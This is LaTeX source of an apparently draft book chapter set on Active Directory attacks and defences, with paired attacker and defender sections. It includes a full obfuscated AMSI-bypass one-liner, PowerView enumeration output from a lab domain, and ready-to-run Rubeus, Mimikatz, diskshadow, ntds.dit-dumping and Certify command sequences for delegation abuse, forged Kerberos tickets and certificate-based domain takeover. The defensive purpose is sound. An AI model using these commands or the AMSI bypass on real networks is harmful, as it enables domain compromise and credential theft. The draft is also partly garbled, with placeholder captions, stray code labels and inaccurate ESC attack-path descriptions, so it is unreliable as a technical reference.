    \label{fig:placeholder}
\end{figure}

The msDS-GroupMSAMembership (PrincipalsAllowedToRetrieveManagedPassword) attribute contains a group called “SVC-LAB-GMSA1 Group”. This attribute controls who can request and receive the clear-text password.

When enumerating the membership of the group “SVC-LAB-GMSA1 Group” there are computers, users, and another group (“Server Admins”), so lets check the members of that group.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{gsma.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Now we have a list of all accounts that can get the clear-text password for the GMSA. There are 11 user accounts with that ability and 9 of those look like regular user accounts (hint: they are!). That’s a big problem.
Compromise one of those and the GMSA account is compromised and since it’s a member of the Administrators group in the domain, we own the domain.

Once we compromise a user (or computer!) account that has the ability to pull the clear text password. (PrincipalsAllowedToRetriveManagedPassword), we can request that using the Microsoft PowerShell cmdlet Get-ADServiceAccount.

We can leverage the PowerShell cmdlet Get-ADServiceAccount to get the clear-text password data for the GMSA (attribute msds-ManagedPassword). Using the DSInternals module (ConvertTo-NTHash), we can convert the clear-text password blob to the NT hash.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{nthash.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

If the account we are able to compromise is the computer account, we need to run these commands as SYSTEM on the computer. This method would be used if we’re able to get admin/SYSTEM rights on the server with rights to pull the GMSA password, but the GMSA is not running under the context of a service (so running Mimikatz doesn’t help since the GMSA creds aren’t in memory).

Here I use PSEXEC to spawn a command shell running under the context of the local SYSTEM account. Once running as SYSTEM, we can perform the same action as shown above. The computer account has the right to pull the password, but not a user on that computer, so I elevate to SYSTEM which then interacts with AD as the associated AD computer account. Now I can get the GMSA password.
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{gsmapass.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Next step I perform in the lab is to to confirm that the NT password hash that DSInternals provides matches that in Active Directory.
I use the DSInternals command Get-ADReplAccount to get the AD password hash and can confirm that the password hash pulled from the GMSA is the same as that gathered from AD.
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{dsintcmd.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}


Mitigation

Determine rights actually required and ensure the only the required, limited rights apply to the GMSA.
Don’t add to AD privileged groups unless the servers the GMSAs are used on are limited to Tier 0 (Domain Controllers).
Limit GMSA access \& location (especially if privileged).

\chapter{Scripts and Code to Attack and Defend Active Directory}

\section{Learning Objective 1:}
\subsection{Task}
\begin{itemize}
    \item Our task here is to enumerate the following for the "hackherway" domain. Specifically, we will be enumerating the following below:
    \begin{itemize}
        \item Users
        \item Computers
        \item Domain Administrators
        \item Enterprise Administrators
        \item Network Shares
    \end{itemize}
\end{itemize}

\subsection{Solution}
We can use the PowerView tool from PowerSploit to enumerate the domain. Please note that all the enumeration can be done with Microsoft's Active Directory module as well.

\subsection{Using PowerView}
From a PowerShell session, elevate administrator, and run the following commands:
\begin{lstlisting}
// Hello.java
PS C:\> cd \<location of where PowerView is saved>
PS C:\MyDrive\MyTools> powershell -ep bypass

Windpws PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
\end{lstlisting}
Next, we need to bypass AMSI as PowerView may be flagged as malicious:
\verb|PS C:\MyDrive\MyTools>S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "\{1\}{0\}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe" ( "\{6\}{3\}{1\}{4\}{2\}{0\}{5\}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) ."g`etf`iElD"( ( "\{0\}{2\}{1\}" -f('a'+'msi'),'d',(('I'+'nitF'+'aile') ),( "\{2\}{4\}{0\}{1\}{3\}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( \${n`ULl\},\${t`RuE\}}}}|
Now, load the PowerView script using dot sourcing as such:
\texttt{PS C:\MyDrive\MyTools> _ C:\MyDrive\MyTools\PowerView.ps1
PS C:\MyDrive\MyTools> Get-NetUser

logoncount              : 29906
badpasswordtime         : 08/12/2025 1:21:07 PM
description             : Built-in account for administering the computer/domain
distinguishedname       : CN=Administrator,CN=Users,DC=hackherway,DC=hackherspace,DC=local
objectclass             : {top, person, organizationalPerson, user}
lastlogontimestamp      : 2/4/2025 8:01:30 AM
name                    : Administrator
objectsid               : S-1-5-21-1874506631-3219952063-538504511-500
samaccountname          : Administrator
admincount              : 1
codepage                : 0
samaccountype           : 80530668
whenchanged             : 2/5/2025 4:01:30 AM
accountexpires          : 9223372936854775807
countrycode             : 0
adspath                 : LDAP://CN=Administrator,CN=Users,DC=hackherway,DC=hackherspace,DC=local
instancetype            : 4
objectguid              : e88d11d3-3e60-4a68-b46a-94ff32b7c8cf
lastlogon               : 2/5/2025 9:10:00 AM
lastlogoff              : 12/31/1600 4:00:00 PM
objectcategory          : CN=Person,CN=Schema,CN=Configuration,DC=hackherspace,DC=local
dscorepropagationdata   : (5/3/2025 9:04:05 AM, 2/21/2024 12:17:00 PM, 2/19/2024 1:04:02 PM, 2/19/2024 12:55:49 PM...)
memberof                : {CN=Group Policy Creator Owners,CN=Users,DC=hackherway,DC=hackherspace,DC=local, CN=Domain Admins, CN=Users,DC=hackherway,DC=hackherspace,DC=local, CN=Administrators,CN=Builtin,DC=hackherway,DC=hackherspace,DC=local}
whencreated             : 2/17/2019 7:00:16 AM
iscriticalsystemobject  : True
badpwdcount             : 0
cn                      : Administrator
useraccountcontrol      : 66048
usncreated              : 8196
pwdlastset              : 2/16/2019 9:14:11 PM
usnchanged              : 517082
[snip]

To list a specifc property of all the users, we can use the \texttt{select-object} (or its alias \texttt{select}) cmdlet. For example, to list only the \texttt{samaccountname}, run the following command below:
\texttt{PS C:\MyDrive\MyTools> Get-NetUser | select -ExpandProperty samaccountname
Administrator
Guest
DefaultAccount
krbtgt
ciadmin
sqladmin
srvadmin
mgmtadming
appadmin
sql1admin
svcadmin
testda
[snip]
}
Now, to enumerate member machines in the domain, we can use the \texttt{Get-NetComputer} command as such:
\texttt{PS C:\MyDrive\MyTools> Get-NetComputer
dcorp-dc.hackherway.hackherspace.local
dcorp-mssql.hackherway.hackherspace.local
dcorp-ci.hackherway.hackherspace.local
dcorp-mgmt.hackherway.hackherspace.local
dcorp-appsrv.hackherway.hackherspace.local
dcorp-adminsrv.hackherway.hackherspace.loccal
dcorp-sql1.hackherway.hackherspace.local
[snip]
}
To see the attributes of the Domain Admins group:
\texttt{PS C:\MyDrive\MyTools> Get-NetGroup -GroupName "Domain Admins" -FullData}
grouptype               : -2147483646
admincount              : 1
iscriticalsystemobject  : True
samaccountype           : 268435456
samaccountname          : Domain Admins
whenchanged             : 2.17/2025 2:22:52 PM
objectsid               : S-1-5-21-1874506631-3219952063-538504511-512
objectclass             : {top, group}
cn                      : Domain Admins
usnchanged              : 15057
dscorepropagationdata   : (5/3/2020 9:04:05 AM, 2/21/2019 12:17:00 PM, 2/19/2019 1:04:02 PM, 2/19/2019 12:55:49 PM...)
memberof                : {CN=Denied RODC Password Replication Group,CN=Users,DC=hackherway,DC=hackherspace,DC=local,CN=Administrators,CN=Builtin,DC=hackherway,DC=hackherspace,DC=local}
adspath                 : LDAP://CN=Domain Admins,CN=Users,DC=hackherway,DC=hackherspace,DC=local
description             : Designated administrators of the domain
distinguishedname       : CN=Domain Admins,CN=Users,DC=hackherway,DC=hackherspace,DC=local
name                    : Domain Admins
member                  : {CN=svcadmin,CN=Users,DC=hackherway,DC=hackherspace,DC=local,CN=Administrator,CN=Users,DC=hackherway,DC=hackherspace,DC=local}
usncreated              : 12315
whencreated             : 2/17/2019 7:01:46 AM
instancetype            : 4
objectguid              : d80da75d-3946-4c58-b26d-5406e67bbc10
objectcategory          : CN=Group,CN=Schema,CN=Configuration,DC=hackherspace,DC=local
To enumerate members of the Domain Admins Group:
\texttt{PS C:\MyDrive\MyTools> Get-NetGroupMember -GroupName "Domain Admins"}

GroupDomain         : hackherway.hackherspace.local
GroupName           : Domain Admins
MemberDomain        : hackherway.hackherspace.local
MemberName          : svcadmin
MemberSID           : S-1-5-21-1874506631-3219952063-538504511-1122
IsGroup             : False
MemberDN            : CN=svc admin,CN=Users,DC=hackherway,DC=hackherspace,DC=local

GroupDomain         : hackherway.hackherspace.local
GroupName           : Domain Admins
MemberDomain        : hackherway.hackherspace.local
MemberName          : Administrator
MemberSID           : S-1-5-21-1874506631-3219952063-538504511-500
IsGroup             : False
MemberDN            : CN=Administrator,CN=Users,DC=hackherway,DC=hackherspace,DC=local
\begin{verbatim}
svcadmin
testda
[snip]
\end{verbatim}
To enumerate members of the Enterprise Admins group:
\texttt{PS C:\MyDrive\MyTools> Get-NetGroupMember -GroupName "Enterprise Admins"}

Since this is not a root domain, the above command will return you to the command prompt. We first need to query the root domain as the Enterprise Admins group is only present within the root of a forest.
\texttt{PS C:\MyDrive\MyTools> Get-NetGroupMember -GroupName "Enterprise Admins" -Domain hackherspace.local

GroupDomain         : hackherspace.local
GroupName           : Enterprise Admins
0MemberDomain       : hackherspace.local
MemberName          : Administrator
MemberSID           : S-1-5-21-2805344878-1496970234-7007674226-500
IsGroup             : False
MemberDN            : CN=Administrator,CN=Users,DC=hackherspace,DC=local
}
To find interesting shares:
PS C:\MyDrive\MyTools> Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC -Verbose
VERBOSE: [*] Running Invoke-ShareFinder with delay of 0
VERBOSE: [*] Querying domain hackherway.hackherspace.local for hosts
VERBOSE: Get-DomainSearcher search string: LDAP://dcorp-dc.hackherway.hackherspace.local/DC=hackherway,DC=hackherspace,DC=local
VERBOSE: Get-NetComputer filter : ' (\&(sAMAccountType=805306369) (dnshostname=*))'
VERBOSE: [*] Total number of hosts : 23
VERBOSE: Waiting for threads to finish...
VERBOSE: All threads completed!
VERBOSE: [*] Total number of active hosts: 8
VERBOSE: [*] Enumerating server dcorp-appsrv.hackherway.hackherspace.local (1 of 8)
VERBOSE: [*] Server share: @{shi1_netname=ADMIN\$; shi1_type=2147483648; shi1_remark=Remote Admin; ComputerName=dcorp-appsrv.hackherway.hackherspace.local}
VERBOSE: [*] Server share: @shi1_netname=C\$; shi1_type=2147483648; shi1_remark=Default share; ComputerName=dcorp-appsrv.hackherway.hackherspace.local
{VERBOSE: [*] Server share: @{shi1_netname=C\$; shi1_type=shi1_type=2147483648; shi1_remark=Default share; ComputerName=dcorp-dc.hackherway.hackherspace.local}
VERBOSE: [*] Server share: @{shi1_netname=IPC\$; shi1_type=2147483651; shi1_remark=Remote IPC; ComputerName=dcorp-dc.hackherway.hackherspace.local}
VERBOSE: [*] Server share: @{shi1_netname=NETLOGON; shi1_type=0; shi1_remark=Logon server share; ComputerName=dcorp-dc.hackherway.hackherspace.local}
\\dcorp-dc.hackherway.hackherspace.local\NETLOGON - Logon server share
VERBOSE: [*] Server share: @{shi1_netname=SYSVOL; shi1_type=shi1_type=0; shi1_remark=Logon server share; ComputerName=dcorp-dc.hackherway.hackherspace.local}
\\dcorp-dc.hackherway.hackherspace.local\SYSVOL - Logon server share
VERBOSE: [*] Enumerating server dcorp-sql1.hackherway.hackherspace.local (3 of 8)
VERBOSE: [*] Server share: @{shi1_netname=ADMIN\$; shi1_type=shi1_type=2147483648; shi1_remark=Remote admin; ComputerName=dcorp-sql1.hackherway.hackherspace.local}
VERBOSE: [*] Server share: @{shi1_netname=C\$; shi1_type=shi1_type=2147483648; shi1_remark=Default share; ComputerName=dcorp-sql1.hackherway.hackherspace.local}
VERBOSE: [*] Server share: @{shi1_netname=IPC\$; shi1_type=shi1_type=2147483651; shi1_remark=Remote IPC; ComputerName=dcorp-sql1.hackherway.hackherspace.local}
VERBOSE: [*] Enumerating server dcorp-adminsrv.hackherway.hackherspace.local (6 of 8)
VERBOSE: [*] Server share: @{shi1_netname=ADMIN\$; shi1_type=shi1_type=2147483648; shi1_remark=Remote Admin; ComputerName=dcorp-adminsrv.hackherway.hackherspace.local}
VERBOSE: [*] Server share: @{shi1_netname=C\$; shi1_type=shi1_type=2147483648; shi1_remark=Default share; ComputerName=dcorp-adminsrv.hackherway.hackherspace.local}
VERBOSE: [*] Server share: @{shi1_netname=ADIPCMIN\$; shi1_type=shi1_type=2147483651; shi1_remark=Remote IPC; ComputerName=dcorp-adminsrv.hackherway.hackherspace.local}
[snip]
}
\subsection{Using the Active Directory Module (ADModule)}
Now, we can now import the ADModule. Remember to use it from a different PowerShell session. If you load PowerView and the ADModule in the same PowerShell session, some functions will not work:
\begin{lstlisting}
PS C:\MyDrive\MyTools> Import-Module C:\MyDrive\MyTools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
PS C:\MyDrive\MyTools> Import-Module C:\MyDrive\MyTools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
\end{lstlisting}
Enumerate all the users in the current domain using the ADModule we just imported from above as such:
\begin{lstlisting}
PS C:\MyDrive\MyTools> Get-ADUser -Filter *

DistinguishedName   : CN=Administrator,CN=Users,DC=hackherway,DC=hackherspace.local
Enabled             : True
GivenName           :
Name                : Administrator
ObjectClass         : User
ObjectGUID          : 1874506631-3219952063-538504511-500
Surname             :
UserPrincipalName   :
DistinguishedName   : CN=Guest,CN=Users,DC=hackherway,DC=hackherspace,DC=local
Enabled                 : False
GivenName               :
Name                    : Guest
ObjectClass             : user
ObjectGUID              : 1ac1cc56-9c7d-4450-a648-512a92f68cb1
SamAccountName          : Guest
SID                     : S-1-5-21-1874506631-3219952063-538504511-501
Surname                 :
UserPrincipalName       :
[snip]
\end{lstlisting}
We can list specific properties. Let us list the sAMAccountname and description for the users. Note that we are actually listing all of the properties first using the \texttt{-Properties} parameter as such:
\begin{lstlisting}
PS C:\MyDrive\MyTools> Get-ADUser -Filter * -Properties *| select
Samaccountname, Description

Samaccountname  Description
Administrator   Built-in account for administering the computer/domain
Guest           Built-in account for guest access to the computer/domain
DefaultAccount  A user account managed by the sysatem
krbtgt          Key Distribution Center Service Account
\end{lstlisting}
For the next task, we will list the computers:
\begin{lstlisting}
PS C:\MyDrive\MyTools> Get-ADComputer -Filter *

DistinguishedName       : CN=DCORP-DC,OU=Domain Controllers,DC=hackherway,DC=hackherspace,DC=local
DNSHostName             : dcorp
\end{lstlisting}
\section{1. Resource-Based Constrained Delegation (RBCD)}

\subsection{Attacker View}
RBCD allows a computer object in AD to impersonate users to a specific service. By setting the \texttt{msds-allowedtoactonbehalfofotheridentity} attribute on a target machine, an attacker can use their controlled machine account to request service tickets from the Kerberos Distribution Center (KDC) on behalf of privileged users.

\begin{lstlisting}
# Set msds-allowedtoactonbehalfofotheridentity on target
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# Get RC4 hash of controlled machine account password
Rubeus.exe hash /password:'p@ssword!'

# Impersonate Administrator
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4Hash> `
/impersonateuser:Administrator /msdsspn:cifs/TargetMachine.domain `
/domain:domain /ptt

# Access administrative share
dir \\TargetMachine.domain\C$
\end{lstlisting}

Without having the password or hash of the \texttt{TRUSTED\_TO\_AUTH\_FOR\_DELEGATION} account:
\begin{lstlisting}
# Request a valid TGT for the account using Kerberos
Rubeus.exe tgtdeleg /nowrap
\end{lstlisting}

\textbf{Impact:} Full impersonation of privileged accounts (e.g., Domain Admin) to specific services without needing the password.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Monitor for changes to \texttt{msds-allowedtoactonbehalfofotheridentity} in AD audit logs.
        \item Look for abnormal \texttt{S4U2Self / S4U2Proxy} ticket requests, especially for high-privilege accounts.
        \item Use SIEM rules to catch new delegation configurations outside standard provisioning workflows.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Limit delegation permissions to only specific, necessary accounts.
        \item Apply \textbf{Privileged Account Protection} (Protected Users group) to prevent delegations.
        \item Disable RBCD unless explicitly required.
    \end{itemize}
\end{itemize}

\section{2. Backup Operators Group Abuse}

\subsection{Attacker View}
Members of the \textbf{Backup Operators} group have the \texttt{SeBackupPrivilege}, allowing them to read any file, including the DC's \texttt{ntds.dit} database and \texttt{SYSTEM} hive.

\textbf{Steps:}
\begin{lstlisting}
# Create diskshadow script
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive
create
expose %mydrive% w:
end backup

# Run diskshadow script
diskshadow /s script.txt

# Load DLLs for backup API access
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege

# Copy ntds.dit from shadow copy
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\Path\ntds.dit -Overwrite

# Dump SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive
\end{lstlisting}

\textbf{Impact:} Dumping \texttt{ntds.dit} → extracting all domain user hashes → Pass-the-Hash (PtH) → Domain Admin compromise.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Monitor for \texttt{diskshadow.exe} execution and shadow copy creation from non-backup servers.
        \item Detect loading of custom DLLs like \texttt{SeBackupPrivilegeCmdLets.dll}.
        \item Alert on access to \texttt{C:\textbackslash Windows\textbackslash NTDS\textbackslash ntds.dit} outside normal processes.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Remove unnecessary users from the Backup Operators group.
        \item Use \textit{Just Enough Administration (JEA)} and \textit{Just-in-Time (JIT)} access for backup tasks.
        \item Implement File Integrity Monitoring (FIM) for sensitive files.
    \end{itemize}
\end{itemize}

\section{3. SID History Abuse}

\subsection{Attacker View}
If \textit{SID filtering} is disabled between child and root domains, attackers can forge Kerberos tickets containing elevated SIDs from the root domain.

\textbf{Steps:}
\begin{lstlisting}
Get-DomainSID -Domain current.root.domain.local
Get-DomainSID -Domain root.domain.local

mimikatz kerberos::golden /user:Administrator `
/domain:current.root.domain.local /sid:<CurrentDomainSID> `
/krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> `
/startoffset:0 /endin:600 /renewmax:10080 `
/ticket:\path\golden.kirbi

mimikatz kerberos::ptt \path\golden.kirbi
\end{lstlisting}

\textbf{Impact:} Root domain compromise from a child domain toehold.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Monitor for Kerberos tickets containing unexpected \texttt{SIDHistory} values.
        \item Alert on ticket requests for accounts from other domains with elevated SIDs.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Enable SID filtering between domains.
        \item Regularly audit trust relationships for excessive or outdated configurations.
    \end{itemize}
\end{itemize}

\section{4. AD CS Exploitation}

\subsection{Attacker View}
Misconfigured \textit{Certificate Templates} can allow any authenticated user to request a certificate for a privileged account (ESC1–ESC8).

\textbf{Steps:}
\begin{lstlisting}
Certify.exe find /vulnerable /quiet

Certify.exe request /template:<TemplateName> /quiet `
/ca:"<CA Name>" /domain:<domain.com> `
/altname:<DA AltName> /machine

# Combine cert.pem and convert to PKCS#12
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Use certificate for Kerberos auth
Rubeus.exe asktht /user:<DA AltName> /domain:<domain.com> `
/dc:<DC> /certificate:<cert.pfx> /nowrap /ptt
\end{lstlisting}

\textbf{Impact:} Persistent Domain Admin access without touching passwords or hashes.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Monitor for certificate requests with alternate UPNs or SANs.
        \item Use SIEM to alert on PKI enrollment events from unusual accounts.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Remove \texttt{ENROLLEE\_SUPPLIES\_SUBJECT} where unnecessary.
        \item Restrict template enrollment to specific groups.
        \item Enable AD CS auditing and monitor CA database activity.
    \end{itemize}
\end{itemize}

\section{5. Golden Ticket Attack}

\subsection{Attacker View}
Once an attacker has the \texttt{krbtgt} account hash, they can forge TGTs for any account with any group membership.

\textbf{Steps:}
\begin{lstlisting}
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator `
/domain:<DomainName> /sid:<DomainSID> `
/krbtgt:<krbtgtHash> id:500 /groups:512 `
/startoffset:0 /endin:600 /renewmax:10080 /ptt"'
\end{lstlisting}

\textbf{Impact:} Unlimited persistence until the \texttt{krbtgt} password is reset \textbf{twice}.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Look for TGTs with unusually long lifespans or tickets issued for inactive accounts.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Regularly reset the \texttt{krbtgt} account password (twice).
        \item Follow tiered administration and limit Domain Admin exposure.
    \end{itemize}
\end{itemize}

\section{6. Silver Ticket Attack}

\subsection{Attacker View}
A Silver Ticket Attack allows attackers to forge Kerberos service tickets (TGS) without contacting the domain controller, enabling access to specific services like CIFS or HTTP using only the service account's NTLM hash.

\textbf{Steps:}
\begin{lstlisting}
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> `
/sid:<DomainSID> /target:<TargetMachine> /service:<ServiceType> `
/rc4:<SPN_Account_NTLM_Hash> /user:<UserToImpersonate> /ptt"'
\end{lstlisting}

\textbf{Impact:} Stealthy persistence against specific services; avoids DC interaction and TGT request detection.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Look for TGS-REQ events without a matching TGT request.
        \item Unusual service ticket behavior (e.g., from unexpected sources).
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Regularly rotate service account passwords.
        \item Use gMSAs (Group Managed Service Accounts).
        \item Restrict service account privileges and monitor SPN registrations.
    \end{itemize}
\end{itemize}

\chapter{Attacking and Abusing Active Directory Certificate Services (AD CS)}

\begin{abstract}
This chapter explores critical cybersecurity vulnerabilities in \textit{Active Directory Certificate Services (AD CS)}, emphasizing key attack vectors and defense strategies within enterprise networks. It examines known exploitation techniques classified as \textbf{ESC1--ESC11}, as well as the high-profile \textbf{CERTIFRIED} vulnerability \textit{(CVE-2022-26923)}. To validate findings, a controlled lab environment was created using VMware Workstation 17.5, integrating Kali Linux for offensive operations and Windows Server systems to simulate a realistic AD CS deployment.

Simulated attacks conducted using the \textbf{Certipy-ad} toolkit demonstrate the serious risks of AD CS misconfigurations, showing how attackers can escalate privileges and achieve full domain compromise. A Purple Team methodology—combining offensive (red) and defensive (blue) teams—enabled real-time detection, rapid feedback on exploitation effectiveness, and continuous improvement of detection and response strategies.

The chapter proposes a defensive framework focused on hardening certificate templates, enforcing strict Certificate Authority (CA) privilege boundaries, and deploying continuous monitoring tools such as \textbf{Wazuh SIEM}, complemented by comprehensive Windows Event Log analysis.

Findings show that iterative Purple Teaming significantly enhances detection capabilities, reduces mean time to respond (MTTR), and increases organizational resilience against AD CS-related threats. This chapter provides practical guidance for defenders tasked with securing enterprise PKI and preventing Active Directory exploitation.
\end{abstract}

\section{AD CS Security: Vulnerabilities, Exploits, and Defenses}

Active Directory Certificate Services (AD CS) plays a foundational role in enterprise cybersecurity by enabling secure communications, authentication, and access control through digital certificates. However, due to the complexity of managing a robust Public Key Infrastructure (PKI), AD CS is often misconfigured, leaving organizations vulnerable to various attack vectors. This section outlines those vulnerabilities, common exploitation paths, and defensive strategies to secure AD CS environments.

\subsection{AD CS: A Foundational but Vulnerable Component}

AD CS is essential for issuing and managing digital certificates, allowing secure access to resources, mutual authentication, and encrypted communication across enterprise networks. It uses public/private key pairs, digital signatures, and cryptographic algorithms to validate identities and protect data.

Despite its importance, AD CS is frequently mismanaged. Common issues include:
\begin{itemize}
    \item Overly permissive certificate templates
    \item Misconfigured Certificate Authority settings
    \item Weak access controls on enrollment permissions
    \item Legacy or deprecated cryptographic protocols
\end{itemize}

These misconfigurations are often introduced because administrators prioritize ease of deployment and troubleshooting over security best practices, inadvertently exposing critical identity infrastructure.

\subsection{Categories of AD CS Attacks}

AD CS attacks typically fall into four categories:
\begin{enumerate}
    \item \textbf{Certificate Theft}: Attackers steal existing certificates to impersonate users or systems.
    \item \textbf{Privilege Escalation via Misconfigured Templates}: Attackers enroll in certificates with elevated privileges.
    \item \textbf{Persistence via Forged Certificates}: Attackers maintain long-term access through stealthy certificate abuse.
    \item \textbf{Domain Compromise via ESC Vulnerabilities}: Techniques like ESC1--ESC11 exploit enrollment or issuance paths for full domain takeover.
\end{enumerate}

\subsubsection{Certificate Theft Techniques}

Attackers use the following methods to exfiltrate and abuse certificates:
\begin{itemize}
    \item Exporting certificates via the CryptoAPI if private keys are marked as \texttt{exportable}.
    \item Decrypting certificates using \textbf{Data Protection API (DPAPI)} to retrieve private keys from compromised systems.
    \item Searching for certificate files on disk, such as:
    \begin{itemize}
        \item \texttt{.pfx}, \texttt{.p12}, and \texttt{.pem} files
        \item Windows certificate store entries
    \end{itemize}
\end{itemize}

\subsubsection{Exploitation of PKINIT in Kerberos}

If improperly configured, PKINIT (Public Key Cryptography for Initial Authentication) in Kerberos can leak NTLM hashes via Privilege Attribute Certificates (PACs). This enables credential theft and potential relay attacks.

\section{Account Persistence in AD CS}

Persistence refers to an attacker’s ability to maintain access within an environment after initial compromise. In the context of Active Directory, attackers use certificates to:
\begin{itemize}
    \item Maintain stealthy long-term access
    \item Re-authenticate using valid, trusted credentials
    \item Avoid detection by standard security tools
\end{itemize}

AD CS offers multiple paths for persistence if improperly hardened:
\begin{itemize}
    \item Enrolling certificates on behalf of others (ESC1)
    \item Exploiting \texttt{ENROLL} or \texttt{AUTOENROLL} permissions
    \item Using \texttt{SubjectAltName} spoofing to request certificates for other users
    \item Forging \texttt{Certificate Authority (CA)} chains to bypass revocation
\end{itemize}

Persistence is resilient against:
\begin{itemize}
    \item Password resets
    \item User account deletions (if linked to external certs)
    \item System reboots or updates
\end{itemize}

\section{Common AD CS Exploitation Paths (ESC1--ESC11)}

The ESC (Enterprise Security Certificate) attack paths, popularized by the SpecterOps research team, categorize real-world vulnerabilities found in AD CS deployments.

\begin{itemize}
    \item \textbf{ESC1:} Misconfigured Certificate Template allows low-privileged users to enroll for certificates as other users.
    \item \textbf{ESC2--ESC3:} Certificate Authority misconfigurations allow enrollment or issuance abuse.
    \item \textbf{ESC4--ESC5:} Misconfigured \texttt{SubjectAltName} or enrollment agent templates.
    \item \textbf{ESC6--ESC7:} Weak or missing certificate chain validation.
    \item \textbf{ESC8--ESC11:} Exploitation of certificate renewal, key usage flags, or CA chain manipulation.
\end{itemize}

\section{Case Study: CERTIFRIED (CVE-2022-26923)}

CERTIFRIED is a high-impact vulnerability in AD CS disclosed in 2022. It allows attackers with low privileges to escalate to domain admin by exploiting certificate enrollment processes.

\textbf{Summary:}
\begin{itemize}
    \item Affects environments where computers are auto-enrolled in certificates
    \item Exploits flawed validation in the certificate request process
    \item Enables attackers to impersonate Domain Controllers
\end{itemize}

\section{Attack Simulation Lab Setup}

A controlled lab was created using:
\begin{itemize}
    \item \textbf{VMware Workstation 17.5}
    \item \textbf{Windows Server 2022} with AD CS and domain services
    \item \textbf{Kali Linux 2024.1} with offensive tooling
    \item \textbf{Certipy-ad} and \textbf{Impacket} for enumeration and exploitation
\end{itemize}

\subsection{Offensive Workflow}

\begin{enumerate}
    \item Enumerate AD CS using \texttt{certipy find}
    \item Identify vulnerable templates and ESC paths
    \item Request certificates using impersonated identities
    \item Authenticate to domain services using \texttt{PKINIT} and \texttt{Kerberos}
    \item Perform lateral movement or escalate privileges
\end{enumerate}

\section{Detection and Defense}

\subsection{Detection Techniques}

Monitoring and logging are critical for early detection of AD CS abuse. Recommended practices include:
\begin{itemize}
    \item Enabling advanced Windows Event Logging (e.g., Event ID 4886, 4887, 4899)
    \item Tracking certificate enrollment and template usage
    \item Detecting anomalous Subject Alternative Name (SAN) fields
    \item Using tools like \textbf{Sysmon}, \textbf{Wazuh}, or \textbf{Elastic SIEM}
\end{itemize}

\subsection{Defensive Controls}

Key defenses include:
\begin{itemize}
    \item Hardening certificate templates (remove \texttt{ENROLL} for domain users)
    \item Limiting certificate issuance to only trusted users and groups
    \item Removing legacy or unused templates
    \item Enforcing administrative separation for CA management
    \item Enabling CRL (Certificate Revocation Lists) and OCSP
\end{itemize}

\section{Purple Teaming Methodology}

Purple Teaming bridges offensive and defensive operations:
\begin{itemize}
    \item Red team tests exploitability and lateral movement using real attacks
    \item Blue team tunes detection, logs, and alerts in response
    \item Shared insights improve tooling and procedures iteratively
\end{itemize}

In this chapter’s lab, Purple Teaming dramatically improved visibility into certificate abuse and led to better SIEM detection tuning for Event IDs and unusual certificate request patterns.

\section{Conclusion}

Active Directory Certificate Services (AD CS) is a powerful but often overlooked component of enterprise identity infrastructure. Misconfigurations in templates, CAs, or permissions can lead to privilege escalation, domain compromise, or undetected persistence.

Through offensive simulation and defensive analysis, this chapter demonstrates the real-world risks posed by AD CS vulnerabilities and offers guidance for building a more secure PKI infrastructure. Tools like \textbf{Certipy-ad}, when used by adversaries or defenders, reveal the gaps between intention and implementation in certificate-based authentication systems.

Security teams must treat AD CS with the same rigor as Domain Controllers—applying hardening, segmentation, auditing, and monitoring to ensure it cannot be abused as a backdoor into the heart of the domain.

\chapter{External Reconnaissance and Enumeration Principles in Active Directory}

\begin{abstract}
